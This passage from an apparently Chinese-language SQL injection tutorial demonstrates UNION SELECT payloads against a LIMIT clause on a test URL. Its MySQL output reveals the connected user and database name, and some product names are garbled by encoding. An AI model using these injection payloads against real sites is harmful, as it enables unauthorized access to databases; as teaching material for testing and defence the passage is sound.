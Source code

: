 ## 0x02 爆当前连接用户

web语句: http://www.test.com/limit_sql.php?limit=2 union select 1,user(),3,4,5,6,7;



数据库语句: select * from tdb_goods  limit 0,2 union select 1,user(),3,4,5,6,7;



```plain
mysql> select * from tdb_goods  limit 0,2 union select 1,user(),3,4,5,6,7;
+----------+---------------------------------+------------+------------+-------------+---------+------------+
| goods_id | goods_name                      | goods_cate | brand_name | goods_price | is_show | is_saleoff |
+----------+---------------------------------+------------+------------+-------------+---------+------------+
|        1 | R510VC 15.6鑻卞绗旇鏈?          | 绗旇鏈?    | 鍗庣       |    3399.000 |       1 |          0 |
|        2 | Y400N 14.0鑻卞绗旇鏈數鑴?       | 绗旇鏈?    | 鑱旀兂       |    4899.000 |       1 |          0 |
|        1 | root@localhost                  | 3          | 4          |       5.000 |       6 |          7 |
+----------+---------------------------------+------------+------------+-------------+---------+------------+
3 rows in set (0.00 sec)
```

## 0x03 爆当前连接的数据库

web语句: http://www.test.com/limit_sql.php?limit=2 union select 1,database(),3,4,5,6,7;



数据库语句: select * from tdb_goods  limit 0,2 union select 1,database(),3,4,5,6,7;



```plain
mysql> select * from tdb_goods  limit 0,2 union select 1,database(),3,4,5,6,7;
+----------+---------------------------------+------------+------------+-------------+---------+------------+
| goods_id | goods_name                      | goods_cate | brand_name | goods_price | is_show | is_saleoff |
+----------+---------------------------------+------------+------------+-------------+---------+------------+
|        1 | R510VC 15.6鑻卞绗旇鏈?          | 绗旇鏈?    | 鍗庣       |    3399.000 |       1 |          0 |
|        2 | Y400N 14.0鑻卞绗旇鏈數鑴?       | 绗旇鏈?    | 鑱旀兂       |    4899.000 |       1 |          0 |
|        1 | test                            | 3          | 4          |       5.000 |       6 |          7 |
+----------+---------------------------------+------------+------------+-------------+---------+------------+
3 rows in set (0.00 sec)
```
